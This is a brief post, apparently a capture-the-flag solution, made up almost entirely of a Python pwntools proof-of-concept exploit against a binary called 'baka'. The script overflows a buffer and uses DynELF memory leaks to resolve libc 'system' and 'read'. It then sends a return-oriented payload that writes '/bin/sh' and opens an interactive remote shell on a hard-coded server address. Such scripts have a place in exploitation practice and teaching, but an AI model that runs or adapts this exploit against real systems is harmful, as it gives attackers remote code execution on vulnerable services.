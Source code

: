 poc如下：

```python
from pwn import *
#context.log_level = 'debug'
stuff = "I'm baka!\n" + '\x00'*2 + 'a'*28 + 'bbbb'

def leak(address):
    count = 0
    data = ''
    p1 = stuff + p32(0x080485ae) + p32(address)
    cn.sendline(p1)
    print cn.recvuntil('u!\n')
    up = ""
    while True:
        c = cn.recv(numb=1,timeout=0.2)
        count += 1
        if up == '\n' and c == "":
            data = data[:-1]
            data += "\x00"
            break
        else:
            data += c
        up = c
    data = data[:4]
    log.info("%#x => %s" % (address, (data or '').encode('hex')))
    return data
#/////////////////////////////

#cn = process('baka')
cn = remote('121.42.206.184',10001)

baka = ELF('baka')

p3ret=0x0804862d
base_bss = 0x0804a034

cn.recv()# come on, pwn me!
d = DynELF(leak, elf=ELF('baka'))
p_system = d.lookup('system','libc')
print "p_system => " + hex(p_system)
p_read = d.lookup('read','libc')
print "p_read => " + hex(p_read)


p2 = stuff + p32(p_read) + p32(p3ret) + p32(0) + p32(base_bss) + p32(10) + p32(p_system) + 'bbbb' + p32(base_bss)

print '\n###send payload 2###'
cn.sendline(p2)
cn.recvuntil('u!\n')#agree with u!
cn.send('/bin/sh\0')
time.sleep(0.3)
cn.interactive()
```
